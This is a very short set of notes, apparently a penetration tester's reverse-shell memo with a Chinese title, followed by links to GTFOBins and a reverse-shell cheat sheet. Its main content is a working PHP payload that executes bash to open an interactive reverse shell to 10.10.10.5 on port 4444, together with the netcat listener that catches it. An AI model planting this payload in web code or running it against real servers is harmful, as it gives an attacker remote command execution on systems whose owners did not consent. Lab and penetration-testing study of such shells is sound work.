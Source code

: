 # 反弹 Shell 小记

```
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.5/4444 0>&1'"); ?>

    sudo nc -lvnp 4444
```

- https://gtfobins.github.io/

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet